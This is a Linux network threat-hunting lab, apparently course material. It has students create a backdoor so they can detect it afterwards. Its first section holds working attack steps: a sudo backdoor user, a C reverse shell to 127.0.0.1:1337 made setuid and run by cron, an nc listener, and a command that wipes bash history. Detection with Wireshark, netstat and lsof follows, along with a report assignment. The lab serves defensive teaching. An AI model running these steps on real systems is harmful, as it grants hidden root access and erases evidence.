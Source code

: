 # Linux Network Hunting Lab

<iframe allowfullscreen height="360" src="https://www.youtube.com/embed/WSN4e7_1VJw?wmode=opaque" width="640"></iframe>  
In order for us to do a local hunt for a malicious Linux process, we
have to make ourselves a malicious process.

## Create Evil

First let's pretend we are a bad guy who just got access to a box and
are taking our first persistence steps.

    $ adduser backdooruser (and create new user) 
    $ usermod -aG sudo backdooruser
     $ su - backdooruser

Next place the following code for a reverse shell into a file named
mal.c and save it in your /bin directory:

    #include <stdio.h>
    #include <sys/socket.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>

    int main(void){
    int port = 1337;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;      
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr,
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;      
    }

  
Then run the following commands:

    $ gcc mal.c -o /bin/mal 
    $ rm mal.c $ sudo chmod u+s /bin/mal 
    $ sudo crontab -e

Add line to cron file and save to set up the cron job:

    */5 * * * * /bin/mal

Once you have that done step out of the `su` back to your normal user
and run `$ nc -lp 1337` and in another window run `$ /bin/mal`.

You should have a root shell connect back. Confirm that this works
before moving forward.

Now let's clear out our command history with
`cat /dev/null > ~/.bash_history`, because we are sneaky little backdoor
hiders.

Kill the connection and start listening again.

# Network Hunting

We can use network traffic to identify evil, in fact, it just might be
the easiest way to initially detect something without having to go look
for it.

If malware is on your network, it is going to try to talk out to its
command and control server. There are plenty of ways to look at network
traffic, especially if you are a larger organization that has a security
monitoring setup like SecurityOnion.

## Hunting Packet Captures

This is the more common form of network hunting. Rather than being on
the potentially compromised box itself, we can just look at the packets
captured and search through it to find evil. This is the bread and
butter of most organization's defensive posture.

Set up Wireshark and begin capturing on the localhost interface (this is
essential because your reverse shell is heading to 127.0.0.1 and will
not wind up leaving the main interface. Wait for your reverse shell to
connect and then use the nc listener to run a few commands. Use ‘wget
https://st2.depositphotos.com/1000393/6507/i/950/depositphotos_65076917-stock-photo-hacker-and-terrorism-fight.jpg’
as one of your commands.

Use the Wireshark capture you generated to find the malicious process
and data that was passed back and forth.

## Local Network Hunting

Locally, it should be easy to identify both your listening and connected
processes using the following commands. They all do something slightly
different but are very useful.

-   netstat -antp
-   netstat -la \| grep “LISTEN” “ESTABLISHED”
-   lsof -u
-   lsof -i

In the real world, we could set up a log monitoring system that would
check these sort of things on a regular basis but that is overkill for a
single host.

## Everyday Hunting

For everyday use on a Linux box I recommend the tool ntopng and
Wireshark for this purpose. ntop identifies processes making network
connections and alerts on them. If the process doesn't make sense when
it pops up, go to Wireshark and open up the stream to see if it makes
sense.

Assignment:

1.  Make sure you understand what the attacker did and why. Try to
    understand what the effect was of each command the attacker ran.
    This is some pretty complicated stuff.
2.  Write up a minimal report on the malicious actions taken by the
    attacker as well as information about the backdoor, according to the
    packet capture and the networking commands used. Include information
    from the command outputs' and Wireshark to provide detail. Do not go
    any further than this lab's content in your writeup.
